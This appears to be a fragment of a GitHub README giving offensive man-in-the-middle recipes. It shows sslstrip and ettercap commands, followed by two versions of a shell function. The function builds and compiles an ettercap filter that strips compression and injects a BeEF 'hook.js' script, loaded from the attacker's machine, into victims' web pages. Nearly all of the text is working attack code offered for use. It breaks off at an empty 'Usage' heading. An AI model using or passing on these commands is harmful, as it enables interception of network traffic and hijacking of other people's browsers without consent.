 # useing ssl strip 

* sslstrip -a -f -l 8080 -w ssl

# then start Ettercap

* ettercap -TQ -i <interface> -M <Method:subMethod> /ipofthetargets// /ipofthetargets//

--------------------------------------------------------

#  Browser-in-the-middle-attack + Man-in-the-middle-attach 

1) with ettercap + beefxss 

# use  myfuntion inject beef xss 

* 1-  hooks body and head 
function crypto_bitm_mitm(){ printf 'if(ip.proto== TCP && tcp.dst == 80) {\n\tif (search(DATA.data,"Accept-Encoding")) {\n\t\treplace("Accept-Encoding", "Accept-Nothing!");\n\t}\n}\nif (ip.proto== TCP && tcp.src == 80) {\n\tif (search(DATA.data,"</head>")) {\n\t\treplace("</head>", "<script src="http://%s:3000/hook.js"></script></head>"); \n\t\tmsg("0xCrypt00o,Hooked This Machine with beef-xss hook");\n\t}\n\tif (search(DATA.data,"</HEAD>")) {\n\t\treplace("</HEAD>", "<script src="http://%s:3000/hook.js"></script></HEAD> "); \n\t\tmsg("0xCrypt00o,Hooked This Machine with beef-xss hook");\n\t}\n\tif (search(DATA.data,"</body>")) {\n\t\treplace("</body>", "<script src="http://%s:3000/hook.js"></script></body> "); \n\t\tmsg("0xCrypt00o,Hooked This Machine with beef-xss hook");\n\t}\n\tif (search(DATA.data,"</BODY>")) {\n\t\treplace("</BODY>", "<script src="http://%s:3000/hook.js"></script></BODY> "); \n\t\tmsg("0xCrypt00o,Hooked This Machine with beef-xss hook");\n\t}\n}' $1 $1 $1 $1 > /tmp/0xCrypt00o.filter && etterfilter /tmp/0xCrypt00o.filter  -o /tmp/0xCrypt00o.ef && export crypto_filter=/tmp/0xCrypt00o.ef ;

}

** or ** 

# 2 -  hook head 

function crypto_bitm_mitm(){ printf 'if(ip.proto== TCP && tcp.dst == 80) {\n\tif (search(DATA.data,"Accept-Encoding")) {\n\t\treplace("Accept-Encoding", "Accept-Nothing!");\n\t}\n}\nif (ip.proto== TCP && tcp.src == 80) {\n\tif (search(DATA.data,"</head>")) {\n\t\treplace("</head>", "<script src="http://%s:3000/hook.js"></script></head>"); \n\t\tmsg("0xCrypt00o,Hooked This Machine with beef-xss hook");\n\t}\n\tif (search(DATA.data,"</HEAD>")) {\n\t\treplace("</HEAD>", "<script src="http://%s:3000/hook.js"></script></HEAD> "); \n\t\tmsg("0xCrypt00o,Hooked This Machine with beef-xss hook");\n\t}\n}' $1 $1 > /tmp/0xCrypt00o.filter && etterfilter /tmp/0xCrypt00o.filter  -o /tmp/0xCrypt00o.ef && export crypto_filter=/tmp/0xCrypt00o.ef ;

}

# Usage :
